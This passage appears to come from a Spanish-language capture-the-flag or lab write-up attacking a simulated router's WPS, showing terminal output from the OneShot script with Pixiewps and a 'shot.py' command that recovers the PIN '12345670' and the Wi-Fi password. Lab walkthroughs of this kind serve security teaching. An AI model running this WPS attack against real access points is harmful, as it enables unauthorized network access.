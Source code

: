 ```bash
[P] PKR: BCAB7BEEB496E31FC2C23729B97FD42E7AEA90C7B94663CC3F82535C8A67BC02DB47D6D35AB32FECE9DE5571FC4A0DBFB5D231E7E1F9DCBEC40E9773D8DD0C7FB62AE0946FB7D0B3E09293C6ACFDFE37CF2CC412F0459D3F47950BD3F29654F31C0A04916C0C51AE56364197B14BEDA3AFA2C1767CE3412A6F42C50F7BC48862A653925C59BAEB45CCB66E0A434F203F5BC216BF7D51F212CD12657881A082E03C13CFB9D0AE1937873F5E5D465503B8EADD91BA647E37FAB7F7FF12399D564F
[P] PKE: 0CAC4E24A2C035DE3EEC31EA8E030BC4066B4B8DF0A30DECAE8AA5EAB66D24FA62838A85C7B92B84D5AD441B958245D8FE06481EB60DC281B2052B18E09F377DEFD7B6EB8135D730B4CC5346C1E1530D0077B3967F32629314226073CC5749FE1FDAA5A90F00089EC335E5E41B43094A17716BB7B146C1AE9256152AE4D99FAFB41FF75ABDB861222B2F3BB91415EA4743076E7425D7483533F5735DC0333240B96EC0A4ECD1E1AB115DB919A2D68CD0D210BC901DC5E51219AE7E5A8208F0FF
[P] AuthKey: B1864858B4FF560645414543615D12D22F3379C697B711B3114AAE1FA8000EF8
[*] Received WPS Message M3
[P] E-Hash1: 560294C1D26C06BFB005962DD488A9B999E99572E42125A3192892592A2857DA
[P] E-Hash2: 3BAFFE78A53D85A07EC872C34530E3C64A59911589D0900DC0367A8CBC48F3B3
[*] Sending WPS Message M4…
[*] Received WPS Message M5
[+] The first half of the PIN is valid
[*] Sending WPS Message M6…
[*] Running Pixiewps…
... [snip]
```

y bueno, si probamos a cambiar el diccionario a combinaciones que comienzen con `1234` encontraremos que `12345670` es el PIN correcto y con eso, nos descubrirá la contraseña:

```bash
root@attica04:/tmp# python3 shot.py -i wlan0 -p 12345670 -K -b 02:00:00:00:01:00
[*] Running wpa_supplicant…
[*] Running wpa_supplicant…
[*] Trying PIN '12345670'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 02:00:00:00:01:00 (ESSID: plcrouter)
[*] Received Identity Request
[*] Sending Identity Response…
[*] Received WPS Message M1
[P] E-Nonce: 9A38317F705D5B3AE1892D4F4EABF521
[*] Sending WPS Message M2…
[P] PKR: BC687EA904BE4E05CDC4EDB5C2C67018197ACD8865AB82209B5202349AF5CB52EBF33B8050B424A83ABC1DBC760A040C70A1E86294A14F3146765CBCA8065FDC747D9186DA021EBDB0B9965A9E9D645EA507A226B61F4202ECB3044F957E81234904FF550E4A02A0501A029A75F0E86EC3183B1D1E8B4618D2C6ECDA00E4EEF1463F3271F5AE7F2AF620EAF1D1C8D6927960E987ECC42507E21CFDA7DCCEC11849E6C5D5216EE1B890C85A8A1BB7B9504244BAC98732F9413186431EAF4C34FA
[P] PKE: F37A3F7A4A9CCF7A01494C9AD7AC2C2135B6E215496E03CD4AC2919611760E58751ACF51836B3A5C6753355AD64325376FC60ED9AD38BF695BA52942663AFE350A990497552A46B10D6474FFE01DFF9D592F01E39BC1AD007041B042CE19729C542956BBEBD4507B2CF5E9A4A273E97506252ACC6493E3A225A6E41A1F2C7B09A758683BC659A1DC855B5AC7CF1C1027B4DF7F213F06BBAA9588702BEEC3B5A734EFABDBB47A642AA9F1DC8DC71F574F1A7BD75D6916A667F1E1E76ABBAD1A0A
[P] AuthKey: F298DFF08106C4F1B1AA6E2413D77F83E18FDC4C2BAB077CE1B1F2352D76FC2B
[*] Received WPS Message M3
[P] E-Hash1: EF4F37F394301CE503B4EEB54434D58A413E25FA4F911D0ACEB171078FF9CB1F
[P] E-Hash2: A3B641AAF3795B5D7F6B7C845DCFAF71B861C051D0BCC7A166D5E309FFA627BD
[*] Sending WPS Message M4…
[*] Received WPS Message M5
[+] The first half of the PIN is valid
[*] Sending WPS Message M6…
[*] Received WPS Message M7
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
[+] AP SSID: 'plcrouter'
```
